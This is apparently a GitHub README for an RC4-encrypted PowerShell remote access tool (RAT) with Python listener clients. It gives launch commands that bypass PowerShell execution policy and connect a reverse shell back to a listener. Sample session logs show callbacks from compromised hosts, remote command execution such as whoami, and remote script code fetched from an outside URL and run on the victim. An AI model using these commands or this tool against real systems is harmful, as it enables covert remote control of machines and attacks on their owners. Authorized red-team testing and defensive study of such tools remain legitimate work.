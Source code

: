 # RC4-PowerShell-RAT
Simple powershell reverse shell using RC4 encryption for all the commands and payloads. PsShellClient.py only accept one client at the time. MultiPsShellClient.py accept several clients at the time.

The RAT will also save all the commands and output received in a log file.

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```
```
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

$ python PsShellClient.py 0.0.0.0 1111 test
```

```
$ python MultiPsShellClient.py 127.0.0.1 8888 test 20

PS-RemoteShell Python Client v1.1
Mr.Un1k0d3r RingZer0 Team


Help
------
list            List all sessions
interact id     Interact with a session (Example: interact 1)
background      Return to the main console

[*] Waiting for a connection...


(Main Console)>>> [+] *** NEW Callback from 127.0.0.1:49416. Session ID:15

(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
(192.168.238.1:RINGZER0\mrun1k0d3r):Command >whoami
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Url >background
(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Command >...
```

# Example
```
powershell -exec bypass Import-Module .\PS-RemoteShell.ps1; PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```

```
$ python PsShellClient.py 10.0.0.144 8080 test
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


[*] Waiting for a connection...
[+] Callback from 10.0.0.144:49758
(192.168.70.133:RINGZER0\ME):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >Get-BrowserHomepage

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141



(192.168.70.133:RINGZER0\ME):Url >null
(null):Exec >whoami
RINGZER0\ME

(192.168.70.133:RINGZER0\ME):Url >

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com

